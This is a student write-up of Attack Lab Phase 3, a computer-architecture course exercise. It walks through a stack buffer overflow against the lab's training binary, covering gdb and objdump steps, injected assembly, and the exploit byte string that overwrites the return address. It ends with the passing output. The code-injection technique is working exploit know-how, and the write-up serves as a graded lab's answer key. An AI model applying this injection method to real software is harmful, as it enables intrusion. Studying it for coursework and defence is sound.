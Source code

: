 ```yaml
---
category:
- Course Work
title: 'Attack Lab: Phase 3'
date: '2022-04-23T00:00:00+08:00'
tags:
- Attack Lab
- Computer Organization and Architecture
---
```


###### Run

```bash
$ gdb ctarget --tui
...
(gdb) break getbuf
Breakpoint 1 at 0x401b28: file buf.c, line 12.
(gdb) run -q
Starting program: /home/stu2020012872/3-lab-3-attacklab/target97/ctarget -q

Breakpoint 1, getbuf () at buf.c:12
(gdb) info registers rsp
rsp            0x55668cc0       0x55668cc0
```

###### Run

```bash
objdump --disassemble ctarget > ctarget.asm
```

###### Read File `ctarget.asm`

```assembly
...
0000000000401b28 <getbuf>:
  401b28:	48 83 ec 28          	sub    $0x28,%rsp
...
0000000000401c78 <touch3>:
...
```

###### Write File `phase-3-inject.s`

```assembly
movq $0x55668cc8, %rdi
pushq $0x0000000000401c78
ret
```

###### Run

```bash
gcc -c phase-3-inject.s
objdump --disassemble phase-3-inject.o > phase-3-inject.asm
```

###### Read File `phase-3-inject.asm`

```assembly
...
0000000000000000 <.text>:
   0:	48 c7 c7 c8 8c 66 55 	mov    $0x55668cc8,%rdi
   7:	68 78 1c 40 00       	pushq  $0x401c78
   c:	c3                   	retq
```

###### Read File `cookie.txt`

```
0x3a9a6c2f
```

###### Convert Cookie to String

The string should end with a `\0`.

```
33 61 39 61 36 63 32 66 00
```

###### Write File `phase-3.txt`

Place the string in the parent frame of `getbuf`, that is, `test` stack frames.

```
48 c7 c7 c8 8c 66 55
68 78 1c 40 00
c3
00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
98 8c 66 55 00 00 00 00
33 61 39 61 36 63 32 66 00
```

###### Run

```bash
./hex2raw < phase-3.txt > phase-3.in
./ctarget -i phase-3.in
```

###### Terminal Output

```
Cookie: 0x3a9a6c2f
Touch3!: You called touch3("3a9a6c2f")
Valid solution for level 3 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```
